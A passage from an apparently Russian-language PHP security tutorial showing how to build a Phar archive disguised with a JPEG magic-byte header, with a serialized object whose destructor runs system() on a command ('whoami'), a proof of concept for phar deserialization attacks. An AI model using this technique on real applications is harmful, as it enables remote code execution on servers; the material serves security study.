 ```
$poc["file"] = "text";
// Добавить фиктивный объект в метаданные. Он будет сериализован
$poc->setMetadata($dummy);
// Остановить буферизацию и записать изменения на диск
$poc->stopBuffering();

?>
```

Пример создания Phar с заголовком ```JPEG``` magic byte, поскольку на содержимое заглушки нет ограничений.

```php
<?php
class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

// создание нового Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// добавление объекта любого класса в качестве метаданных
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
